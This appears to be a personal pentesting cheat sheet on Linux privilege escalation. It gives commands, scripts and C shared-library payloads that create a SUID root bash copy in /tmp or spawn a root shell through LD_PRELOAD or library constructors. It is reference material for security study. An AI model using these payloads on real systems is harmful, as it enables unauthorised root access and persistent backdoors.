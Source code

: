 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```
</div><div>

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Root Bash (script)

Remember to make it executable using `chmod +x root.sh`.

```bash!
#!/usr/bin/env /bin/bash
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
```
</div><div>

#### Root Bash (Python)

The values `0,0` are the UID/GID. `0o4755` means `755` with SUID.

```py
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>

<hr class="sep-both">

## Root Bash Static Library

<div class="row row-cols-lg-2"><div>

Short simplified program.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Long program.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

To compile, use:

```shell!
$ gcc -shared -fPIC init.c -o init.so
```

Or, if you are compiling the function `_init`:

```shell!
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

⚠️ Remember to ensure that the file is readable by those that need it.

```shell!
$ chmod 777 init.so       # 😏 - avoid it
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```c
// gcc -shared -fPIC shell.c -o shell.so
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) shell();

void main() {};

void shell() {
    system("id");
}
```
</div><div>
</div></div>